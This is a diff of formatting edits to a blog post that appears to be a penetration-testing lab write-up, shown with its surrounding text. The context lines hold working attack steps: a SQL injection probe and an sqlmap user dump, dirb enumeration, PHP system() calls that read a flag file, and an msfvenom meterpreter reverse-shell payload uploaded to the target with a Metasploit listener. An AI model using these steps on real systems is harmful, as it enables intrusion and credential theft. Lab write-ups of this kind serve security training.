

Before and after one commit to a56z/a56z.github.io, a Jekyll site: the page built from _posts/2021-02-13-exploiting-webapplications.markdown, in a window 1280 px wide and 900 px high, scrolled down 11764 px. Shown: the whole window, without its empty margins (308-971 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; Markdown is read by kramdown in place of the engine named in the settings.

Commit message:
Update 2021-02-13-exploiting-webapplications.markdown

````diff
--- a/_posts/2021-02-13-exploiting-webapplications.markdown
+++ b/_posts/2021-02-13-exploiting-webapplications.markdown
@@ -568,18 +568,18 @@ Let's inspect it on Burp:
 Reading the source code we can reconstruct the parameter and issue a valid request to the URL as follows:
 <img src="/assets/images/id1on92.png" height="100%" width="100%">
 <br/>
-And get to this site here:
 <br/>
-
-<br/>
+And get to the site containing id=1.
 Let's then further check for SQL vulnerabilities adding id=1' or 's'='s
 <br/>
+<br/>
 <img src="/assets/images/sqlvuln92.png" height="100%" width="100%">
-<br/><br/>
+<br/>
+<br/>
 Great!
 
 Ok, let's sqlmap this now
-
+<br/>
 ```bash
 $ sqlmap -u http://172.16.64.92/72ab311dcbfaa40ca0739f5daf505494/tracking.php?id=1 --users
 ```
@@ -605,7 +605,6 @@ SQL Injection vulnerability is officially confirmed, let's dump the tables.
 
 <br/>
 <img src="/assets/images/13.png" height="100%" width="100%">
-
 <br/>
 Ok, so we got user/password combinations, let's enumerate with dirb to find hidden urls for http://172.16.64.92/72ab311dcbfaa40ca0739f5daf505494
 <br/><br/>
@@ -613,8 +612,8 @@ Ok, so we got user/password combinations, let's enumerate with dirb to find hidd
 (root💀kali)-[~]
 └─# dirb http://172.16.64.92/72ab311dcbfaa40ca0739f5daf505494
 ```
-<br/><br/>
-
+<br/>
+<br/>
 
 It show's a /login path on the server. We dump the credentials here. And it works. We're in the Admin console :)
 
@@ -624,6 +623,8 @@ The URL is http://172.16.64.92/72ab311dcbfaa40ca0739f5daf505494/panel.php so it'
 <br/>
 
 Browsing through the console we find the flag in /var/www
+<br/>
+
 ```php
 echo "<pre>";system("ls -la /var/www");echo"</pre>";system("cat /var/www/flag.txt");
 system("cat /var/www/flag.txt");
@@ -643,7 +644,9 @@ visiting the 172.16.64.91 brings us to the default Apache page but since we add:
 	172.16.64.91    75ajvxi36vchsv584es1.foocorp.io
 
 to our local /etc/hosts file, we get access to a different page. 404 not found, oops. Ok, time to enumerate with dirb.
+
 <br/>
+
 ┌──(root💀kali)-[~]
 └─# dirb http://75ajvxi36vchsv584es1.foocorp.io
 <br/>
@@ -705,11 +708,9 @@ Let's modify in Burp and use http://75ajvxi36vchsv584es1.foocorp.io/app/upload.p
       <body>
 </html>
 ```
-
-
-
+<br/>
 Now, let's upload a simple php file that we name php.php
-
+<br/>
 
 ```php
 <?
@@ -717,13 +718,13 @@ phpinfo();
 ?>
 ```
 
-<br/><br/>
-
+<br/>
+<br/>
 The file is stored and accessible on /app/upload/
 Ok, since this works we can now set up a listener with metasploit, create a meterpreter php file with msfvenom and upload the meterpreter php file to get a shell.
-
+<br/>
 Metasploit listener:
-<br/><br/>
+<br/>
 ```bash
 msf6 > use exploit/multi/handler
 msf6 exploit(multi/handler) > set lhost 172.16.64.12
@@ -734,9 +735,11 @@ msf6 exploit(multi/handler) > set payload php/meterpreter_reverse_tcp
 payload => php/meterpreter_reverse_tcp
 msf6 exploit(multi/handler) > run
 ```
-<br/><br/>
+<br/>
+<br/>
 Remember tha we need to run metasploit as root if we want to listen on ports in the range 1-1024. Ok, let's create the meterpreter php file
-<br/><br/>
+<br/>
+<br/>
 
 ```bash
 $ msfvenom -p php/meterpreter_reverse_tcp lhost=172.16.64.12 lport=443 -o shell.php
@@ -746,7 +749,6 @@ $ msfvenom -p php/meterpreter_reverse_tcp lhost=172.16.64.12 lport=443 -o shell.
 
 We can upload shell.php the same way as php.php
 Instantly a meterpreter terminal opens, here we enter:
-
 <br/>
 
 ```bash
````
